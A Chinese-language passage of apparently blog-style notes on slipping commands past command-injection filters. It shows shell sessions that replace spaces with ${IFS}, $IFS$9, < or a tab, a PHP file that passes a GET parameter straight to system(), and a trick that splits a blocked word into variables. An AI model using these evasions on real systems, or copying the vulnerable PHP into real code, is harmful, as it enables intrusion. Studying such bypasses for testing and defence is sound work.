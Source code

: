 测试

```txt
ubuntu@VM-0-8-ubuntu:~/shell$ cat<1.txt 
abc
ubuntu@VM-0-8-ubuntu:~/shell$ cat${IFS}1.txt 
abc
ubuntu@VM-0-8-ubuntu:~/shell$ cat$IFS$91.txt 
abc
```

```txt
root@mannix-kali-2018-3:~/Desktop# vim 1.txt
root@mannix-kali-2018-3:~/Desktop# cat 1.txt
abcdef
root@mannix-kali-2018-3:~/Desktop# cat<1.txt
abcdef
root@mannix-kali-2018-3:~/Desktop# cat${IFS}1.txt
abcdef
root@mannix-kali-2018-3:~/Desktop# cat$IFS$91.txt
abcdef
root@mannix-kali-2018-3:~/Desktop# 
```

%09测试

```php
<?php

error_reporting(0);

$cmd = $_GET['cmd'];
system("$cmd");
//http://127.0.0.1/45.php?cmd=cat%091.txt
//输出abc
```

### 敏感字符绕过

这里假设过滤了`cat`

1.利用变量绕过

```txt
ubuntu@VM-0-8-ubuntu:~/shell$ a=c;b=a;c=t;
ubuntu@VM-0-8-ubuntu:~/shell$ $a$b$c 1.txt
abc
```

```txt
root@mannix-kali-2018-3:~/Desktop# a=c;b=a;c=t;
root@mannix-kali-2018-3:~/Desktop# $a$b$c 1.txt
abcdef
root@mannix-kali-2018-3:~/Desktop# 
```

2.利用base编码绕过


[1]: http://mannix.top/
[2]: https://www.anquanke.com/post/id/162128